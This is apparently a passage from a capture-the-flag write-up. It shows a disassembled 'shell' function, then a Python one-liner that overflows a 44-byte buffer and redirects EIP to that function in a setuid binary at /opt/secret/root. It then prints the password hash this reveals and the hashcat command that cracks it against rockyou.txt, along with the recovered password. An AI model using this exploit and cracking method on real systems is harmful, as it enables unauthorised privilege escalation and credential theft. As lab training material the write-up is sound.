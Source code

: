 we need 44 chars to overwrte EIP

I chose the manual way over pwntools but both are handy

```
pwndbg> disassemble shell
Dump of assembler code for function shell:
0x080484cb <+0>: push ebp
0x080484cc <+1>: mov ebp,esp
0x080484ce <+3>: sub esp,0x8
0x080484d1 <+6>: sub esp,0xc
0x080484d4 <+9>: push 0x3e8
0x080484d9 <+14>: call 0x80483a0 <setuid@plt>
0x080484de <+19>: add esp,0x10
0x080484e1 <+22>: sub esp,0xc
0x080484e4 <+25>: push 0x3e8
0x080484e9 <+30>: call 0x8048370 <setgid@plt>
0x080484ee <+35>: add esp,0x10
0x080484f1 <+38>: sub esp,0xc
0x080484f4 <+41>: push 0x80485d0
0x080484f9 <+46>: call 0x8048380 <system@plt>
0x080484fe <+51>: add esp,0x10
0x08048501 <+54>: nop
0x08048502 <+55>: leave
0x08048503 <+56>: ret
End of assembler dump.
```

we import struct to convert the addredd to little endian (can be done manually then inserted)

`python -c 'import struct;print "A"\*44 + struct.pack("<I",0x080484cb)'`

And pipe it to the program...to reveal the hashed password

`python -c 'import struct;print "A"\*44 + struct.pack("<I",0x080484cb)' | /opt/secret/root`

I need to learn assembly ASAP

```
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

Might be SHA-512...so hashcat mode..1800?

```
hashcat -m 1800 '$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.' /usr/share/wordlists/rockyou.txt
```

cracked! password is `love2fish`

noot noot
